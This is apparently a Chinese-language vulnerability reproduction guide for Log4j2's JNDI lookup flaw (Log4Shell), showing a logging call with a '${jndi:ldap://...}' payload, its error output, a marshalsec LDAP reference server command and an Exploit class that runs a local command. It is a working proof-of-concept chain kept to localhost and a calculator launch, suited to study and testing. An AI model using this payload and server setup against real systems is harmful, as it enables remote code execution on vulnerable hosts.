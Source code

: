 ## 漏洞复现

### 简单输出

使用漏洞Jar包，添加log4j2.xml配置，日志输出JNDI地址，如下：

```java
public class SimpleTestLog4j2 {
	private static final Logger logger = LogManager.getLogger(SimpleTestLog4j2.class);
    public static void main(String[] args){
        logger.error("${jndi:ldap://127.0.0.1:1389/#Exploit}");
    }
}
```

就会得到如下输出：

```
2021/12/17-10:06:46 [main] DEBUG jndi [(79)] : InitialContextFactory.getInitialContext()
2021/12/17-10:06:46 [main] DEBUG jndi [(136)] : supportDeepBinding=false
2021/12/17-10:06:46 [main] DEBUG jndi [(82)] : Created initial context delegate for local namespace:org.eclipse.jetty.jndi.local.localContextRoot@b3ca52e
2021-12-17 10:06:46,284 main WARN Error looking up JNDI resource [ldap://127.0.0.1:1389/#Exploit]. javax.naming.CommunicationException: 127.0.0.1:1389 [Root exception is java.net.ConnectException: Connection refused (Connection refused)]
at com.sun.jndi.ldap.Connection.<init>(Connection.java:238)
at com.sun.jndi.ldap.LdapClient.<init>(LdapClient.java:137)
at com.sun.jndi.ldap.LdapClient.getInstance(LdapClient.java:1609)
at com.sun.jndi.ldap.LdapCtx.connect(LdapCtx.java:2749)
at com.sun.jndi.ldap.LdapCtx.<init>(LdapCtx.java:319)
at com.sun.jndi.url.ldap.ldapURLContextFactory.getUsingURLIgnoreRootDN(ldapURLContextFactory.java:60)
at com.sun.jndi.url.ldap.ldapURLContext.getRootURLContext(ldapURLContext.java:61)
at com.sun.jndi.toolkit.url.GenericURLContext.lookup(GenericURLContext.java:202)
at com.sun.jndi.url.ldap.ldapURLContext.lookup(ldapURLContext.java:94)
...
```

### 模拟JNDI服务

1. 搭建JNDI服务，提供目标对象

   下载[ marshalsec](https://github.com/mbechler/marshalsec) Jar，并通过如下命令启动（访问对应URL即可以获取到对应的Exploit对象）：

   ```
   $ java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:7777/#Exploit" 8888
   ```

2. 创建class目标对象

   ```java
   public class Exploit {
       static {
           System.err.println("Pwned");
           try {
               //打开Mac计算器
               String[] commands = {"open", "/System/Applications/Calculator.app"};
               ///打开Windows计算器
   			//String[] commands = {"calc"};
               Runtime.getRuntime().exec(commands);
           } catch ( Exception e ) {
               e.printStackTrace();
           }
       }
   }
   ```
